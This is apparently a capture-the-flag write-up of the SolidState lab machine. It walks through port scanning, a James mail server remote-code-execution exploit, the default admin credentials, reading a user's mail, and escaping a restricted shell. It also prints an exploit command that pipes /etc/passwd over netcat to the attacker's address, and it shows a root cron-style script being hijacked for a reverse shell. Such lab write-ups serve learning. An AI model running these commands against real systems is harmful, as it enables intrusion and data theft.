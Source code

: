 # Solidstate writeup
## Discovery
```bash
# Nmap 7.91 scan initiated Thu Jan  7 10:19:03 2021 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.098s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.4 [10.10.14.4]), 
80/tcp  open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp open  pop3    JAMES pop3d 2.3.2
119/tcp open  nntp    JAMES nntpd (posting ok)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  7 10:19:27 2021 -- 1 IP address (1 host up) scanned in 24.52 seconds
```

We can see that there is a webserver running on port 80, and some POP3 mail related related services.
![](2021-01-07-10-20-52.png)
 Let's check out the web page. Ooh a fancy security company. I'm sure they are super secure.
![](2021-01-07-14-31-56.png)  
The website seems to be running some running some template by HTML5 Up called solid state.
![](2021-01-07-10-28-14.png)
It seems to be really just a static template with no server-side code execution. I found the source on github:
https://github.com/quimo/html5up-solid-state

In the meantime let's use dirbuster in super fast mode with a medium-sized list.
I used to just use the python tool dirsearch, but I've noticed that it's so much slower than dirbuster in multithreaded mode, so I prefer it for larger lists now.
![](2021-01-07-10-34-42.png)

Dirbuster did not really reveal anything interesting, so let's go back to our nmap scan.
While we're at that, let's run a full nmap scan with all ports, just to be sure we did not miss anything. Huzzah! We did find another port open, 4555.
```
Full nmap scan
Discovered open port 4555/tcp on 10.10.10.51
```
Googling around for `JAMES pop3d 2.3.2` exploits I found this, which should allow RCE (remote code execution) for our james pop3 server we discovered via the nmap script
https://gist.github.com/kjiwa/82d3bb091d45b59c1d7674727b1292a7

I need to change the command to be executed:
```python
gflags.DEFINE_string('command', 'cat /etc/passwd | nc 10.10.14.4 1234', 'The command to be executed.')
```
It tells us that the command will be executed the next time a user logs in to the machine.
We can't do that yet though, and I doubt that any of the users are actually being simulated.
Might be useful for later though.
Let's check out the management service that the exploit uses on port `4555`.
The exploit tells us that root/root should be the default credentials. Let's try that:
![](2021-01-07-10-46-23.png)
Success, we can now use this interface to modify users.
Just to see if we really have access, I created a user `test`:
![](2021-01-07-10-49-40.png)
There is also the command `listusers`. Hmm `mailadmin` looks juicy. Let's change his password with the `setpassword` command:
![](2021-01-07-13-05-48.png)

Connecting with the mailadmin shows no emails though unfortunately:
![](2021-01-07-13-11-05.png)

There are other juicy users though. Let's try mindy!
![](2021-01-07-13-12-07.png)

And to mix it up, let's use thunderbird to list the emails:
![](2021-01-07-13-13-42.png)

![](2021-01-07-13-13-54.png)

And indeed, poor old Mindy seems to have gotten some mail
![](2021-01-07-14-45-34.png)

```
Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: <censored>

Respectfully,
James
```

Let's log in with mindy then: `ssh mindy@10.10.10.51`

Running some commands we can see that they really don't trust this poor mindy person. She cannot run anything useful :(

![](2021-01-07-13-17-52.png)

![](2021-01-07-13-18-53.png)
The only tools she's allowed to use are in this ./bin directory. Not a lot in there though.
I think we should find a way for mindy to be free and run whatever we want. Equal rights and whatnot!
![](2021-01-07-13-19-37.png)

The easiest way I could think of would be to just append more directories to her `PATH`:
```
mindy@solidstate:~$ export PATH=/bin:/usr/local/bin/:/usr/bin/:$PATH
-rbash: PATH: readonly variable

mindy@solidstate:~$ /bin/bash 
-rbash: /bin/bash: restricted: cannot specify `/' in command names
```
But it seems that they have thought about that.
I found this article which sheds some light on restricted shells.
https://www.oreilly.com/library/view/network-security-hacks/0596006438/ch01s19.html

But wait... we still have something that we did not use yet. We can log in as a user now!
So let's try our python script from before (keen eyed people will notice it's a different python file, but the same exploit, I found this one easier to use)
![](2021-01-07-13-23-46.png)

Now we just need to log in as mindy again, and the RCE will be triggered. We get a shell in our netcat listener!
![](2021-01-07-13-24-06.png)
This shell is much more usable, it actually allows us to run commands!  
![](2021-01-07-13-24-34.png)

## Privilege Escalation
Ok now that we have a usable shell we can actually run some diagnostic tools. I'll start an updog server (what's updog? 👉😎👉 Not much just a minimal HTTP server).
![](2021-01-07-13-16-27.png)

We'll wget that from our machine and run it.
It did find some password, but it doesn't seem to work for anything. May very well be some default. (su root -> nothing)
```
/etc/apache2/sites-available/default-ssl.conf:          #        file needs this password: `xxj31ZMTZzkVA'.
```
Seems that linPEAS did not really find anything, so let's try LinEnum.
This time I actually learned about it's thorough mode with `-t`, which also does more file system checks
```bash
sh LinEnum.sh -t
```
It found something interesting! A file that is chmoded to 777 and belongs to root. It may be that it's executed periodically?
```
-e [-] World-writable files (excluding /proc and /sys)                                                                             
-rwxrwxrwx 1 root root 105 Aug 22  2017 /opt/tmp.py                                              
```

Looking at it it's a simple python file that executes a system command.
```sh
rm -r /tmp/*
```
Let's change it to execute a reverse shell:
![](2021-01-07-14-03-43.png)

And we're root!
![](2021-01-07-14-04-02.png)

![](2021-01-07-15-01-58.png)